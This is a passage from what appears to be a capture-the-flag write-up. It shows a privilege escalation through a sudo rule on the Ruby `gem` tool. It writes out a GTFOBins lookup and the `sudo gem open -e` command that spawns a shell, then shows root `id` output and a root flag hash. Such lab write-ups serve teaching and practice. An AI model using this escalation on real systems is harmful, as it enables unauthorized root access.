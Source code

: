 PS: it's not an issue if there is a desync of a few seconds because the OTP
window is 17 codes so we can have a max desync of 17 x 30 sec.

Let's see the EoP for `gem`:

```plaintext
$ gtfoblookup linux sudo gem
gem:

    sudo:

        Description: This requires the name of an installed gem to be
                     provided (`rdoc` is usually installed).
        Code: sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

My paylmaod will be

```palintext
sudo /usr/bin/gem open -e "/bin/sh -c /bin/bash" bundler
```

Let's get root:

```plaintext
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
96a8f2a385ce2c384353e6998dc3fdac
```
